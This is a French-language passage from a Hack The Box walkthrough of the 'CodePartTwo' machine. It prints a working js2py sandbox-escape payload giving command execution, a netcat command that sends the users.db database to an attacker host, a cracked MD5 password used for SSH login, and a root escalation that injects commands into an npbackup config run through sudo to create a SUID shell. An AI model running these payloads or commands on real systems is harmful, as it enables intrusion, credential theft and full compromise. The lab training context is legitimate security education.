Le principe de ce PoC consiste à utiliser les mécanismes d’introspection de Python pour parcourir les classes actuellement chargées en mémoire, jusqu’à identifier la classe `subprocess.Popen`, qui permet d’exécuter des commandes système.

Tu peux alors copier-coller le payload publié par **Marven11** dans l’interface Web. 


Pour vérifier que le PoC fonctionne correctement, on peut commencer par exécuter une commande simple comme **`id`** :

```javascript
let cmd = "id"

let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

En cliquant sur **Run Code**, l’application renvoie cependant l’erreur suivante :

```texte
Error: 'NoneType' object is not callable
```

Cette erreur provient de la fonction **`.communicate()`**.
 Dans Python, cette méthode renvoie un **tuple contenant la sortie standard et la sortie d’erreur de la commande exécutée**.

Dans notre cas, la sortie de la commande se trouve dans **le premier élément du tuple**.
 Il faut donc récupérer cette valeur et la convertir en texte.

En modifiant légèrement la dernière ligne du payload, par exemple :

```javascript
n11[0].decode()
```

le résultat est correctement renvoyé par l’application :

```texte
uid=1001(app) gid=1001(app) groups=1001(app)
```



Cette réponse confirme que le payload parvient bien à **sortir de la sandbox js2py et à exécuter une commande système sur le serveur**.

### Extraction de données sensibles via RCE

Une fois l’évasion de la sandbox confirmée, tu peux utiliser l’interface web **comme une sorte de session distante sur le serveur**.

Chaque payload exécuté via le bouton **Run Code** permet de lancer une commande système et d’afficher le résultat dans la zone **Output** du dashboard.

Commence par exécuter quelques commandes simples pour identifier l’environnement :

```texte
let cmd = "id; whoami; pwd; ls /home/"
```

Après avoir cliqué sur **Run Code**, l’application renvoie le résultat suivant :

```texte
uid=1001(app) gid=1001(app) groups=1001(app)
app
/home/app/app
app marco
```

Ces informations permettent déjà d’identifier plusieurs éléments importants :

- l’application s’exécute avec l’utilisateur **`app`**
- le répertoire de travail est **`/home/app/app`**
- le répertoire **`/home/`** contient deux comptes utilisateurs : **`app`** et **`marco`**

La présence de l’utilisateur **`marco`** est particulièrement intéressante, car elle indique qu’un **compte système supplémentaire** existe sur la machine.

À partir de là, tu peux continuer l’exploration du système afin d’identifier des fichiers sensibles accessibles depuis l’application, comme des fichiers de configuration ou des bases de données contenant des identifiants.

#### Récupération de la base SQLite instance/users.db

L’analyse du **code source de l’application** montre également que les comptes utilisateurs ainsi que leurs identifiants sont stockés dans une base de données SQLite nommée **`users.db`**, située dans le répertoire **`instance/`** de l’application.

Comme l’exécution de commandes système fonctionne désormais, tu peux vérifier si ce fichier est bien présent sur le serveur.

Par exemple, l’exécution du payload suivant :

```texte
let cmd = "ls instance/"
```

renvoie bien :

```texte
users.db
```

Ce résultat confirme que la base de données **`users.db`** est bien accessible dans le répertoire **`instance/`** de l’application.

Comme l’exécution de commandes fonctionne maintenant, il est possible de **copier la base de données vers ta machine Kali** afin de l’analyser localement.

Pour cela, tu peux utiliser **`nc` (netcat)** afin d’envoyer le fichier depuis la machine cible vers ta machine d’attaque, comme expliqué dans la recette .

Depuis l’interface **Run Code**, envoie le payload suivant en remplaçant l’adresse IP par celle de ta machine Kali :

```texte
let cmd = "nc 10.10.x.x 4444 < instance/users.db"
```

Du côté de ta machine **Kali**, commence par ouvrir un port en écoute afin de recevoir le fichier :

```bash
nc -lnvp 4444 > local_users.db
```

Lorsque le payload est exécuté, la base de données **`users.db`** est alors transférée vers ta machine Kali et enregistrée dans le fichier **`local_users.db`**, ce qui permet de **l’analyser localement**.

#### Analyse de la base SQLite

Tu peux maintenant analyser la base de données récupérée avec **`sqlite3`** :

```bash
sqlite3 local_users.db
```

Dans l’interface SQLite, commence par lister les tables présentes dans la base :

```sqlite
.tables
```

Le résultat montre deux tables :

```sqlite
code_snippet  user
```

La table **`user`** est particulièrement intéressante, car elle contient les comptes de l’application.

Tu peux d’abord examiner sa structure :

```sqlite
.schema user
CREATE TABLE user (
	id INTEGER NOT NULL, 
	username VARCHAR(80) NOT NULL, 
	password_hash VARCHAR(128) NOT NULL, 
	PRIMARY KEY (id), 
	UNIQUE (username)
);
```

Ce schéma montre que la table stocke :

- un **identifiant **
- un **username**
- un **hash de mot de passe**

Tu peux ensuite afficher le contenu de la table :

```sqlite
select * from user;
```

La base renvoie alors :

```sqlite
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
```

Cette table contient donc deux comptes :

- **`marco`**
- **`app`**

L’utilisateur **`app`** correspond au compte sous lequel l’application s’exécute sur le serveur.

En revanche, l’utilisateur **`marco`** est particulièrement intéressant dans le contexte de l’exploitation.
 Lors de l’exploration du système, tu avais déjà vu que deux répertoires existaient dans **`/home/`** :

```bash
/home/app
/home/marco
```

La présence de **`marco`** dans la base confirme donc qu’il s’agit bien d’un **compte utilisateur du système**, ce qui en fait un bon candidat pour tenter **une connexion SSH sur la machine**.

#### Crack du hash du mot de passe (MD5)

La table **`user`** contient un champ **`password_hash`** qui stocke le hash du mot de passe des utilisateurs.

Pour tenter de retrouver le mot de passe associé à l’utilisateur **`marco`**, tu peux soumettre ce hash à un service de recherche de hash public, par exemple **crackstation.net**.




Le mot de passe associé à l’utilisateur **`marco`** est :

```
sweetangelbabylove
```

Tu disposes maintenant d’un **couple identifiant / mot de passe** potentiellement utilisable :

```
marco : sweetangelbabylove
```

### Connexion SSH avec les identifiants récupérés

Dans de nombreux CTF Hack The Box, les identifiants récupérés peuvent être réutilisés sur d’autres services exposés par la machine, notamment SSH.

Tu peux maintenant tester ces identifiants en SSH :

```
ssh marco@codeparttwo.htb
```

Après saisie du mot de passe, la connexion est acceptée et tu obtiens un shell sur la machine.

Quelques commandes simples permettent de vérifier le contexte d’exécution :

```bash
marco@codeparttwo:~$ id; whoami; pwd

uid=1000(marco) gid=1000(marco) groups=1000(marco),1003(backups)
marco
/home/marco
marco@codeparttwo:~$ 

```

### Récupération du flag user.txt

Une fois connecté en **SSH** avec l’utilisateur `marco`, tu peux lister le contenu de son répertoire personnel :

```bash
ls -l
total 12
drwx------ 7 root root  4096 Apr  6  2025 backups
-rw-rw-r-- 1 root root  2893 Jun 18  2025 npbackup.conf
-rw-r----- 1 root marco   33 Mar  9 15:07 user.txt
```

Le fichier **`user.txt`** est présent dans ce répertoire.
 Il suffit de l’afficher pour récupérer le flag :

```bash
cat user.txt
c308xxxxxxxxxxxxxxxxxxxxxxxxcebb
```

La lecture de `user.txt` confirme que tu as réussi ta prise de pied.

Il faut maintenant passer à l’escalade de privilèges pour obtenir un accès root.

## Escalade de privilèges


### Sudo -l

Tu commences toujours par vérifier les droits <code>sudo</code> :

```bash
marco@codeparttwo:~$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

La sortie indique que l’utilisateur **marco** peut exécuter :

```bash
(ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

**Le programme `npbackup-cli` peut donc être exécuté en root, ce qui en fait une piste prioritaire pour l’escalade de privilèges.**

### Identification des éléments liés à npbackup

En listant le contenu du répertoire personnel, on observe également la présence d’un fichier de configuration :

```bash
ls -l
-rw-rw-r-- 1 root root 2893 Jun 18 2025 npbackup.conf
```

On dispose donc de deux informations importantes :

- un programme **`npbackup-cli`** exécutable en **root**
- un fichier de configuration **`npbackup.conf`**

**L’analyse va se concentrer sur ces deux éléments en appliquant la méthode décrite dans la recette  :.**

### Analyse du `--help` de `npbackup-cli`

Parmi toutes les commandes testées dans la recette, celle portant sur les notions de **Fichiers et chemins** est particulièrement intéressante.

```
npbackup-cli --help | grep -Ein 'config|conf|file|path|dir|directory|folder|source|destination|target|output|tmp|temp'
```

Plusieurs options liées à la configuration ressortent :

```
-c CONFIG_FILE, --config-file CONFIG_FILE
--check-config-file
```

- `--config-file` permet de charger une **configuration personnalisée**
- `--check-config-file` permet de **valider une configuration**

**Le programme repose sur un fichier de configuration et te permet d’en fournir un personnalisé. Tu peux donc contrôler son comportement, ce qui constitue une piste intéressante pour l’escalade de privilèges.**

### Analyse du fichier `npbackup.conf`

Parmi toutes les commandes testées, celle portant sur les notions de **backup et d’automatisation** permet de faire ressortir les paramètres les plus intéressants :

```
grep -Ein 'backup|restore|snapshot|archive|tar|rsync|hook|pre|post|cron|task|job|exec' npbackup.conf
```

La sortie met notamment en évidence :

```
pre_exec_commands: []
post_exec_commands: []
```

Ces paramètres permettent d’exécuter des commandes avant ou après la sauvegarde.

**Comme tu peux fournir ton propre fichier de configuration et que `npbackup-cli` s’exécute avec les privilèges root, tu peux contrôler ces commandes, ce qui ouvre la voie à l’escalade de privilèges.**

### Mise en place de l’exploitation

Commence par vérifier que le fichier de configuration existant est valide :

```bash
sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf --check-config-file
```

La sortie confirme que la configuration est correctement chargée et valide :

```text
Loaded config ... in /home/marco/npbackup.conf
Config file seems valid
state is: success
```

Tu peux donc te baser sur ce fichier fonctionnel pour construire notre configuration, en modifiant uniquement les paramètres nécessaires à l’exploitation.

### Choix du répertoire de travail

Tu remarqueras assez rapidement que le répertoire `/home/marco` est régulièrement nettoyé et reconstitué.
Les répertoires de travail classiques comme `/tmp` et `/dev/shm` sont également soumis à des mécanismes de nettoyage.

Si tu veux le vérifier, crée un fichier de test dans ces répertoires :

```
echo test > /home/marco/test.txt
echo test > /tmp/test.txt
echo test > /dev/shm/test.txt
```

Puis observe leur contenu en temps réel avec la commande suivante :

```bash
start=$(date +%s); while true; do clear; echo "Temps: $(( $(date +%s)-start ))s"; for f in /home/marco/test.txt /tmp/test.txt /dev/shm/test.txt; do echo "--- $f ---"; cat "$f" 2>/dev/null || echo "[disparu]"; done; sleep 2; done
```

Après quelques minutes (généralement moins de 4 minutes pour `/home/marco`, mais pouvant aller jusqu’à 15 minutes pour `/tmp` et `/dev/shm`), les fichiers disparaissent automatiquement.

```bash
Temps écoulé : 827s
----- /home/marco/test.txt -----
[disparu]
----- /tmp/test.txt -----
[disparu]
----- /dev/shm/test.txt -----
[disparu]
```

Cela confirme la présence d’un mécanisme de nettoyage automatique sur ces répertoires.

Il est nécessaire de trouver un répertoire accessible en écriture par l’utilisateur **marco** et non soumis à un mécanisme de nettoyage.

On peut rechercher les répertoires accessibles en écriture avec la commande suivante :

```bash
find / -type d -writable 2>/dev/null
```

Parmi les résultats, le répertoire `/var/tmp` attire l’attention.

Contrairement à `/home/marco`, `/tmp` et `/dev/shm`, il n’est pas soumis au mécanisme de nettoyage observé précédemment.
 Si tu veux, tu peux également le vérifier en y créant un fichier et en observant qu’il n’est pas supprimé.

**On utilise donc `/var/tmp` comme répertoire de travail pour la suite de l’exploitation.**

### Choix de la stratégie

La première étape consiste à copier le fichier de configuration dans notre répertoire de travail :

```bash
cp /home/marco/npbackup.conf /var/tmp/root.conf
```

La stratégie consiste ensuite à exploiter le paramètre `pre_exec_commands` de notre copie du fichier de configuration.

Ce paramètre permet d’exécuter des commandes avant le lancement du backup.
 Comme `npbackup-cli` est exécuté avec les privilèges root, ces commandes seront elles aussi exécutées en root.

L’objectif est donc d’y injecter les commandes nécessaires pour obtenir un accès privilégié.

Les commandes utilisées sont :

- copie du binaire `/bin/bash` dans /var/tmp
- application du bit SUID avec `chmod +s`

Cela permet d’obtenir un binaire exécutable avec les privilèges root.

> **Note :** Il aurait également été possible d’utiliser un reverse shell, mais la création d’un binaire SUID est plus simple et plus directe dans ce contexte.


### Exécution de l’exploit

On commence par modifier notre fichier de configuration `/var/tmp/root.conf` en ajoutant les commandes dans `pre_exec_commands` :

```bash
nano /var/tmp/root.conf
```

et d'y ajouter les commandes

```txt
      pre_exec_commands:
        - cp /bin/bash /var/tmp/rootbash
        - chmod +s /var/tmp/rootbash
```

> note : il faut indenter avec des espaces sinon le fichier ne sera pas valide

Une fois le fichier modifié, on vérifie qu’il est valide :

```
sudo /usr/local/bin/npbackup-cli -c /var/tmp/root.conf --check-config-file
```

```txt
2026-03-18 16:30:49,302 :: INFO :: Config file seems valid
2026-03-18 16:30:49,307 :: INFO :: ExecTime = 0:00:00.030375, finished, state is: success.
```

La sortie confirme que la configuration est correctement chargée.

On peut alors lancer le backup :

```
sudo /usr/local/bin/npbackup-cli -c /var/tmp/root.conf --backup
```

La commande génère plusieurs erreurs liées à la configuration du backup, mais cela n’empêche pas l’exécution des commandes définies dans `pre_exec_commands`.

On observe notamment :

```txt
Pre-execution of command cp /bin/bash /var/tmp/rootbash succeeded
Pre-execution of command chmod +s /var/tmp/rootbash succeeded
```

Les commandes sont exécutées **avant** le processus de backup.

Ainsi, même si le backup échoue ensuite, le binaire SUID est bien créé et exécutable avec les privilèges root.

------

### Obtention du shell root

Il ne reste plus qu’à exécuter le binaire :

```
/var/tmp/rootbash -p
```

Puis vérifier les privilèges :

```bash
rootbash-5.0# id
uid=1000(marco) gid=1000(marco) euid=0(root) egid=0(root) groups=0(root),1000(marco),1003(backups)
```

Tu obtiens ainsi un shell en tant que **root**, ce qui marque la fin de l’escalade de privilèges et du challenge.

```
cat /root/root.txt
3660xxxxxxxxxxxxxxxxxxxxxxxxda3b
```

## Conclusion

Ce challenge **CodePartTwo HTB Easy** te fait parcourir une chaîne d’exploitation complète, depuis l’exécution de code dans une sandbox JavaScript jusqu’à l’obtention d’un accès root. 

Tu as vu qu’une simple fonctionnalité applicative mal sécurisée peut conduire à une compromission totale, surtout lorsqu’elle est combinée à une mauvaise configuration côté système.

Comme dans tout CTF Hack The Box, la progression repose sur une méthodologie simple et efficace : 

**énumération → exploitation → escalade de privilèges**. 

En identifiant les points d’entrée, en testant le comportement de l’application, puis en analysant les mécanismes exécutés avec des privilèges élevés, tu arrives progressivement à un contrôle complet de la machine.

Ce type de chaîne d’exploitation est typique des machines HTB Easy orientées Web et constitue un excellent entraînement pour progresser en CTF.

---


